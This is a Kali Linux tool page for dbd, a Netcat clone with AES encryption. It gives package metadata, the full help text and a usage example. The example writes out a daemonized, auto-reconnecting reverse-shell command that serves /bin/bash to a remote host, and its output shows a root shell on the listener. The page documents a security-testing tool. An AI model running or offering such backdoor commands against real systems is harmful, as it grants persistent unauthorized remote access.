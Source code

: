 ```yaml
---
Title: dbd
Homepage: https://github.com/gitdurandal/dbd
Repository: https://gitlab.com/kalilinux/packages/dbd
Architectures: any
Version: 1.50-1kali6
Metapackages: kali-linux-default kali-linux-everything kali-linux-headless kali-linux-large kali-linux-nethunter kali-tools-post-exploitation kali-tools-windows-resources 
Icon: images/dbd-logo.svg
PackagesInfo: |
 ### dbd
 
  dbd is a Netcat-clone, designed to be portable and offer
  strong encryption. It runs on Unix-like operating systems
  and on Microsoft Win32. dbd features AES-CBC-128 +
  HMAC-SHA1 encryption (by Christophe Devine), program
  execution (-e option), choosing source port, continuous
  reconnection with delay, and some other nice features.
  dbd supports TCP/IP communication only. Source code and
  binaries are distributed under the GNU General Public
  License.
 
 **Installed size:** `2.84 MB`  
 **How to install:** `sudo apt install dbd`  
 
 ##### dbd
 
 
 ```
 root@kali:~# dbd -h
 dbd 1.50 Copyright (C) 2013 Kyle Barnthouse <durandal@gitbrew.org>
 $Id: dbd.c,v 1.50 2013/05/20 15:40:00 durandal Exp $
 
 This program is free software; you can redistribute it and/or modify it under
 the terms of the GNU General Public License as published by the Free Software
 Foundation; either version 2 of the License, or (at your option) any later
 version.
 
 connect (tcp): dbd [-options] host port
 listen (tcp):  dbd -l -p port [-options]
 options:
     -l          listen for incoming connection
     -p n        choose port to listen on, or source port to connect out from
     -a address  choose an address to listen on or connect out from
     -e prog     program to execute after connect (e.g. -e cmd.exe or -e bash)
     -r n        infinitely respawn/reconnect, pause for n seconds between
                 connection attempts. -r0 can be used to re-listen after
                 disconnect (just like a regular daemon)
     -c on|off   encryption on/off. specify whether you want to use the built-in
                 AES-CBC-128 + HMAC-SHA1 encryption implementation (by
                 Christophe Devine - http://www.cr0.net:8040/) or not
                 default is: -c on
     -k secret   override default phrase to use for encryption (secret must be
                 shared between client and server)
     -q          hush, quiet, don't print anything (overrides -v)
     -v          be verbose
     -n          toggle numeric-only IP addresses (don't do DNS resolution). if
                 you specify -n twice, original state will be active (i.e. -n
                 works like a on/off switch)
     -m          toggle monitoring (snooping) on/off (only used with the -e
                 option). snooping can also be turned on by specifying -vv (-v
                 two times)
     -P prefix   add prefix (+ a hardcoded separator) to all outbound data.
                 this option is mostly only useful for dbd in "chat mode" (to
                 prefix lines you send with your nickname)
     -H on|off   highlight incoming data with a hardcoded (color) escape
                 sequence (for e.g. chatting). default is: -H off
     -V          print version banner and exit (include that output in your
                 bug report and send bug report to michel.blomgren@tigerteam.se)
 unix-like OS specific options:
     -s          invoke a shell, nothing else. if dbd is setuid 0, it'll invoke
                 a root shell
     -w n        "immobility timeout" in seconds for idle read/write operations
                 and program execution (the -e option)
     -D on|off   fork and run in background (daemonize). default: -D off
 ```
 
 - - -
 
---
```

{{% hidden-comment "<!--Do not edit anything above this line-->" %}}

## dbd Usage Example

On the client, respawn every 2400 seconds (`-r 2400`), run as a daemon (`-D on`), display verbose output (`-v`), and serve a bash shell (`-e /bin/bash`), connecting to the remote host (`192.168.1.202`) on port 8080 (`8080`).

On the server, listen for a connection (`-l`) on port 8080 (`-p8080`), and display verbose output (-v).

```
root@kali:~# dbd -r 2400 -D on -v -e /bin/bash 192.168.1.202 8080
```


```
root@kali:~# dbd -l -p8080 -v
listening on port 8080
reverse lookup of 192.168.1.202 failed: Unknown server error
connect to 192.168.1.202:8080 from 192.168.1.202:58651 (n/a)
id
uid=0(root) gid=0(root) groups=0(root)
```
